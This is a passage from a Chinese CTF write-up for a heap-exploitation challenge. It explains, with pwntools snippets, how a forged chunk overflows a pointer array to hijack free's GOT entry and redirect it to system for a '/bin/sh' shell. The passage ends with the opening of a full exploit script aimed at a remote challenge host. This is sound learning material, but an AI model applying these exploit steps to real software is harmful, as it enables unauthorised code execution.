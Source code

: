    下面将heap2申请回来，再多申请一次就能得到我们前面伪造的堆0x6020ad，利用伪造的堆（heap3）进行堆溢出，覆盖掉heaparray上的heap0指针，指向free的got表：

   ```python
   add(0x68,b'6')#把2恢复回来
   add(0x68,b'6')#创建fake heap，实际上是heap指针数组前面0x33
   edit(3,b'\x00'*0x23+p64(elf.got['free']))   #覆盖heap0为free的got表0x602018
   ```

   覆盖前：

   ![image-20240711213451366](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112134474.png)

   覆盖后，成功将heaparry[0]覆盖为free的got表：

   ![image-20240711213432953](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112138624.png)

   后面直接编辑heap0，就能将free的got表上的值，修改为system的plt。之所以不直接覆盖为system的got表是因为函数调用的过程，如果之前**调用过一次**，那么后续会直接用**got表上的值**作为函数的确切地址，rip直接跳转到该处来执行指令，所以要先去到system的plt位置执行指令（第一次调用system函数），直接用got表逻辑上说不通因为got表的位置根本不是指令（会报错）：

   ![image-20240709152540670](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112138535.png)

   ![image-20240711214035938](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112140004.png)

   ```python
   edit(0,p64(elf.plt['system']))#此时heap0的指针已经被修改指向了free的got表0x602018，
   ```

   劫持free的got表之前：

   ![image-20240711213354664](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112138475.png)

   劫持free的got表之之后：

   ![image-20240711213323347](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112137952.png)

   后面只要free掉heap1即可调用system("/bin/sh")，因为heaparray[1]处的指针指向了 **"/bin/sh"** 字符串（前面覆盖的）：

   ```python
   free(1)#执行system（原来是free）,heap1指向的位置已经被写'/bin/sh'字符串
   ```

   成功劫持到free函数，来执行 **system("/bin/sh")** 。

   ![image-20240711214021973](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112140045.png)

完整EXP：

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
#context(os='linux', arch='amd64')

# p = process('./pwn')
p = remote("node5.buuoj.cn",29165)
elf = ELF('./pwn')
# libc = ELF('./libc.so.6')

n2b = lambda x    : str(x).encode()
rv  = lambda x    : p.recv(x)
ru  = lambda s    : p.recvuntil(s)
sd  = lambda s    : p.send(s)
sl  = lambda s    : p.sendline(s)
sn  = lambda s    : sl(n2b(n))
sa  = lambda t, s : p.sendafter(t, s)
sla = lambda t, s : p.sendlineafter(t, s)
sna = lambda t, n : sla(t, n2b(n))
ia  = lambda      : p.interactive()
rop = lambda r    : flat([p64(x) for x in r])
```